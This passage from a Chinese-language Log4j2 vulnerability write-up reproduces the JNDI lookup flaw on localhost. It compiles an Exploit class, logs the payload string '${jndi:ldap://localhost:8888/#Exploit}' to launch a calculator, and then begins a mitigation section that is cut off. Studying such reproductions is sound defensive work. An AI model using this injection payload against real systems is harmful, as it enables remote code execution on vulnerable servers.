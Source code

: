    编译成class文件供上述服务提供：

   ```
   $ javac Exploit
   ```

3. 打印日志测试

   ```java
   public class Log4jBugTest {
       private static final Logger logger = LogManager.getLogger(Log4jBugTest.class);
       public static void main(String[] args) {
           logger.error("${jndi:ldap://localhost:8888/#Exploit}");
       }
   }
   ```
   
4. 然后我们就可以看到计算器被打开了

   ![exploit_reproduce_localhost](Log4j2_exploit_assets/exploit_reproduce_localhost.png)

**我们可以看到，这里地址是localhost，class文件是打开计算器命令，如果地址换成攻击者的地址，class文件也替换掉，那将非常危险。**

## 修复

### 临时方案

- JVM参数关闭Lookup

  一些软件可能需要一定时间替换最新版本，可以通过设置JVM启动参数的方式临时解决：
